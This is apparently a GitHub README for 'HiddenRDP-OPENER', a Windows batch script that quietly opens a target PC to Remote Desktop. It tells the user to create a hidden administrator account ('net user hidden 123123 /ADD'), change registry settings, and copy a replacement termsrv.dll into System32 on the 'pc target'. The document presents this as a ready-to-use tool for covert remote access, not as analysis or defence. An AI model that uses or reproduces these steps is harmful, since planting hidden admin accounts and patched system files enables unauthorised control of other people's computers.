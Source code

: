 # HiddenRDP-OPENER
This script make any windows compatible with RDP connection 

<h2>Requirements :</h2>
Windows 7 , Windows 8 , Windows 10 / Not tested yet in Windows XP

<h2>How it works ?:</h2>
This script create a hidden profil ( Administrator privilege ) and change registry parametre to make windows compatible with RDP Connection.

<h2>Configuration:</h2>

You need to open RDPScript.bat (in your pc)<br />
And make this changes :<br />
<h4>net user hidden 123123 /ADD </h4>
hidden = name of your created account<br />
123123 = password of your account <br />
<h4>xcopy "termsrv.dll" "%windir%\System32\" /s /h /q </h4>
change termsrv.dll with your full path (in pc target) , ex : C:\Users\comix\Downloads\termsrv.dll <br />
move termsrv.dll,RDPScript.bat in the pc target 
<h2>License</h2>

Copyright © 2019 Soufiyan Ak (Comix)
